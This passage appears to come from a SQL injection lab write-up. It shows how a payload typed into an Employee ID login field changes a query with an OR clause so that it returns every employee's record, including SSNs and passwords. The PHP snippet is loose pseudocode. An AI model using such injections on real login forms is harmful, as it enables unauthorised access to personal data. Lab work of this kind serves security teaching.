 ![001_admin_login](./images/001_admin_login.png)  
\ **Figure 10:** Payload entered into `Employee` ID to exploit login code.  

This payload will modify the SQL statement above to become the following.  

 ```sql
 SELECT id, name, eid, salary, birth, ssn, phonenumber, address, email, nickname, Password 
 FROM credential 
 WHERE eid= ' ' OR name='Admin';
 ```

We can see that the SQL `OR` statement we added will find the name `Admin`, and the PHP snippet will return us all the employee information because of it.  

```php
if(name=='admin'){
	return All employees information.
} 
``` 
